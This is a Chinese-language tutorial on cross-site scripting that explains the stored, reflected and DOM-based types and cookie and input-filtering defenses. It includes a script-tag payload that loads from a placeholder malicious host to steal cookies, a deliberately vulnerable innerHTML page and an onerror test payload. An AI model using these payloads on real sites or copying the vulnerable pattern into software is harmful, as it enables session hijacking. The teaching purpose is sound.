 # XSS

## **概念**

XSS（Cross Site Scripting，跨站脚本攻击），为了和层叠样式表（Cascading Style Sheet，CSS）区分，所以安全领域改为叫XSS。\
XSS攻击能让攻击者在受害者的浏览器中执行js脚本，并劫持用户会话、破坏网络或将用户重定向到其他恶意的站点。

## **存储型 **

利用漏洞提交恶意 JavaScript 代码，比如在input, textarea等所有可能输入文本信息的区域，输入`<script src="http://恶意网站"></script>`等，提交后信息会存在服务器中，当用户再次打开网站请求到相应的数据，打开页面，恶意脚本就会将用户的 Cookie 信息等数据上传到黑客服务器。

存储型（持续型）： 攻击过后，效果会一直存在，直到攻击被删除。比如一条腾讯新闻，将攻击代码插入在评论区，那么后面的用户都可能触发这个xss攻击。，可能是一张图片，用户一旦点击就会访问另一个地址，也许不用点击，只要访问就会触发。存储型危害特别大，特别是社交网站。如果一篇日志，里面有xss攻击代码，很多然转载阅读之后都可能会被盗取cookie。

## 反射型

反射型（非持续型）： 一次攻击，将修改好的链接发送给目标用户，让客户点击，达到攻击用户的目的，只能一次性，通过参数提交的方式。

## DOM型

代码示例

```markup
<html>
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	<title>DOM型XSS重现</title>
</head>
<body>
	<script><!--js脚本-->
		function test(){
			var str = document.getElementById("text").value;
			document.getElementById("t").innerHTML = "<a href='"+str+"'>testLink</a>";
		}
	</script>
	<div id="t"></div>
	<input type="text" id="text" ="text" value="" />
	<input type="button" id="s" value="url" onclick="test()" />
</body>
</html>
```

利用payload`'><img src=# onerror="alert('XSS')"><'`执行XSS攻击

## 总结

| XSS类型 | 反射型             | 存储型                                   | DOM型            |
| ----- | --------------- | ------------------------------------- | --------------- |
| 触发过程  | 正常用户访问携带XSS的url | <p>1.黑客构造XSS脚本<br>2.用户访问有XSS脚本的网站</p> | 正常用户访问携带XSS的url |

## XSS预防 <a href="xss-yu-fang" id="xss-yu-fang"></a>

因为XSS的根本就是向网站插入脚本代码，并使它运行的一种手段。防御方法分为两种，服务端防御和客户端防御。

**cookie** **secure属性**\
当设置为true时，表示创建的 Cookie 会被以安全的形式向服务器传输（ssl），即只能在 HTTPS 连接中被浏览器传递到服务器端进行会话验证，如果是 HTTP 连接则不会传递该信息，所以不会被窃取到Cookie 的具体内容。

**cookie** **HttpOnly属性**\
如果在Cookie中设置了"HttpOnly"属性，那么通过程序(JS脚本、Applet等)将无法读取到Cookie信息

服务器设置

1. **设置cookir HttpOnly,secure**\
   可以限制javascript不能读取cookie，防止会话ID泄露
2. **处理富文本**\
   过滤掉富文本中的敏感标签如（script、iframe、form），还有敏感词（javascript:） 等等

客户端防御：

1. **输入检查**\
   防止输入敏感字段，如javascript、cookie等等
2. **检查输出**\
   脚本都是通过混淆在HTML当中，被当成html代码的一部分才得到执行。

\
